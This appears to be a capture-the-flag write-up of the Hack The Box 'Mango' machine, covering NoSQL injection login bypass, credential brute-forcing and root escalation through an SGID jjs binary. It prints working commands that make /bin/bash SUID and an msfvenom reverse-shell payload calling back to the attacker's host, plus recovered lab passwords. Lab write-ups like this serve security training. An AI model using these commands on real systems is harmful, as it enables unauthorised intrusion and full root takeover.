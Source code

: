 ```yaml
---
layout: single
title: "Mango write-up"
date: 2020-04-17 00:22:00 -0000
classes: wide
header:
  teaser: /asset/htbwriteup/linux/mango/intro.PNG
  teaser_home_page: true
  icon: /assets/hackthebox.webp
categories: hackthebox
permalink: /htb/htbMango
tags: [mongodb, jjs, PrependSetuid, jjs bash SUID]

---
```


# HTB - Mango

![alt text](https://raw.githubusercontent.com/faisalfs10x/faisalfs10x.github.io/master/asset/htbwriteup/linux/mango/intro.PNG "mango intro")
## Recon
    $ nmap -Pn -sCV -p22,80,443 -oN nmap/Basic_10.10.10.162.nmap 10.10.10.162 
    
![alt text](https://raw.githubusercontent.com/faisalfs10x/faisalfs10x.github.io/master/asset/htbwriteup/linux/mango/1.png)

- From the nmap scan, there are 3 services, OpenSSH 7.6p1 and http Apache 2.4.29 on port 80 and also https Apache titled Mango | Search Base on port 443.

- As usual, we added 10.10.10.162 `staging-order.mango.htb` to our `/etc/hosts` file. It is a subdomain under `mango.htb`. We started to browse to port 443 which is a login page and we got a hint that it is likely `MongoDB` by guessing the box's name `Mango` XD.

![alt text](https://raw.githubusercontent.com/faisalfs10x/faisalfs10x.github.io/master/asset/htbwriteup/linux/mango/login.png)

- After googling, i found MongoDB injection from [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/NoSQL%20Injection). After testing with BurpSuite, we can confirm that the login page is vulnerable to NoSQL injection as we get redirected to `home.php` after we bypassed the authentication page.

- There is a python script to bruteforce the login page that we found from [here](https://book.hacktricks.xyz/pentesting-web/nosql-injection#brute-force-login-usernames-and-passwords-from-post-login).

![alt text](https://raw.githubusercontent.com/faisalfs10x/faisalfs10x.github.io/master/asset/htbwriteup/linux/mango/4.png)

- To use the script, we just need to modify the `url, Host and PHPSESSID` as below.

![alt text](https://raw.githubusercontent.com/faisalfs10x/faisalfs10x.github.io/master/asset/htbwriteup/linux/mango/5.png)

## Exploit
- run the script and we got 2 credentials for `admin` and `mango` users.
-		$ python brute.py
-	    [*] Found admin:t9KcS3>!0B#2 
		[*] Found mango:h3mXK8RhU~f{]f5H

![alt text](https://raw.githubusercontent.com/faisalfs10x/faisalfs10x.github.io/master/asset/htbwriteup/linux/mango/6.png)

- Without a doubt, we managed to SSH into mango user. We try to login to admin user through SSH but it failed earlier.

![alt text](https://raw.githubusercontent.com/faisalfs10x/faisalfs10x.github.io/master/asset/htbwriteup/linux/mango/8.png)

### From mango to admin shell:
- We list all the users on the machine and got 2 users that have login shell which are admin and mango.

![alt text](https://raw.githubusercontent.com/faisalfs10x/faisalfs10x.github.io/master/asset/htbwriteup/linux/mango/9.png)

- mango user can't view the user.txt flag. However, we can `su` into admin and got the flag.
 
![alt text](https://raw.githubusercontent.com/faisalfs10x/faisalfs10x.github.io/master/asset/htbwriteup/linux/mango/10.png)

## Privilege escalation

### Reads or disclose files outside a restricted file system: 
- As usual, we will use [`LinEnum`](https://github.com/rebootuser/LinEnum) to enumerate for ways to escalate to `root`.

![alt text](https://raw.githubusercontent.com/faisalfs10x/faisalfs10x.github.io/master/asset/htbwriteup/linux/mango/11.png)

- LinEnum gave us interesting SGID file that is jjs. `/usr/lib/jvm/java-11-openjdk-amd64/bin/jjs`

![alt text](https://raw.githubusercontent.com/faisalfs10x/faisalfs10x.github.io/master/asset/htbwriteup/linux/mango/12.png)

- By referring to [GTFOBins](https://gtfobins.github.io/gtfobins/jjs/), it may be used to do privileged reads or disclose files outside a restricted file system. So, we can read root's files using this method.

![alt text](https://raw.githubusercontent.com/faisalfs10x/faisalfs10x.github.io/master/asset/htbwriteup/linux/mango/13.png)

- So, we need to point the file that need to be read and we got the `root.txt` flag. 

![alt text](https://raw.githubusercontent.com/faisalfs10x/faisalfs10x.github.io/master/asset/htbwriteup/linux/mango/14.png)

### Get a root shell by making bash SUID using jjs:
- `exec('chmod u+s /bin/bash')`, where we get `euid as (root)`
- 

    admin@mango:/home/admin$ jjs
    Warning: The jjs tool is planned to be removed from a future JDK release
    jjs> Java.type('java.lang.Runtime').getRuntime().exec('chmod u+s /bin/bash').waitFor()
    0
    jjs> 
    admin@mango:/home/admin$ /bin/bash -p
    bash-4.4# id
    uid=4000000000(admin) gid=1001(admin) euid=0(root) groups=1001(admin)

### Meterpreter shell with the `PrependSetuid` option to root shell:

-  Generate elf meterpreter and transfer our elf to victim machine.

		fesal@de7fx:~$ msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=10.10.14.40 LPORT=4444 PrependSetuid=true -f elf -o rev

- On victim machine.


		admin@mango:/tmp$ chmod +x rev
		admin@mango:/tmp$ /usr/lib/jvm/java-11-openjdk-amd64/bin/jjs
		Warning: The jjs tool is planned to be removed from a future JDK release
		jjs> Java.type('java.lang.Runtime').getRuntime().exec('/tmp/rev').waitFor()

- On kali machine.

		Meterpreter session 1 opened (10.10.14.40:4444 -> 10.10.10.162:37425) at 2020-03-09 21:53:16 

		msf5 exploit(multi/handler) > sessions 1
		[*] Starting interaction with 1...

		meterpreter > getuid
		Server username: uid=0, gid=1001, euid=0, egid=1001
		meterpreter > shell
		Process 5656 created.
		Channel 1 created.
		id
		uid0(root) gid=1001(admin) groups=1001(admin)

That's great, now we are in root shell ---- :)

